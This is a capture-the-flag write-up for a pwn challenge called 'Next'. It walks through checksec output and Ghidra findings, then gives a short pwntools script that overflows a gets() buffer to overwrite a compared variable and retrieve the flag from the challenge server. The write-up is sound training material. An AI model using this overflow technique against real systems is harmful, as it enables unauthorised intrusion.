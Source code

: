 # 🧩 Next – Pwn Challenge Writeup

## 📌 Challenge Name **Next**
![Challenge Overview](assets/Overview.png)
---

## 📷 Section 1: Binary Security Check (Checksec)

![Checksec Screenshot](assets/Checksec.png) 

### 🔒 Security Analysis (Checksec Output)

- **RELRO**: Partial – GOT is not fully protected, allowing GOT overwrite attacks.
- **Stack Canary**: ❌ Missing – No protection against stack buffer overflows.
- **NX**: ❌ Disabled – The stack is executable, making shellcode injection possible.
- **PIE**: ✅ Enabled – Code is loaded at random memory addresses.
- **Symbols**: ✅ Present – Not stripped, helpful for reverse engineering.

---

## 🧠 Section 2: Ghidra Static Analysis

![Ghidra Screenshot](assets/Ghidra.png)

### 🔍 Key Observations (from Ghidra)

- The program reads input using `gets()`, making it vulnerable to buffer overflows.
- A 72-byte buffer is followed by a 64-bit variable `local_10`.
- The value of `local_10` is compared to `0x3839736f7265` (ASCII: `"eros98"`).
- If matched, the function `flag()` is called.

---

## 🎯 Exploitation

Overflow the buffer and overwrite `local_10` with the desired value:

````
from pwn import *

payload = b"A" * 72 + p64(0x3839736f7265)

# Remote exploit
p = remote("airange.aucssociety.com", 47331)
p.sendlineafter("destination?", payload)
p.interactive()
````

---

## 🏁 Flag

```
flag{Y0U_4r3_G00D_4T_bU55s}
```

---

## 👤 Author

### ~ **Basim Mehdi**  
### ~ *Team: 0xFAILURES*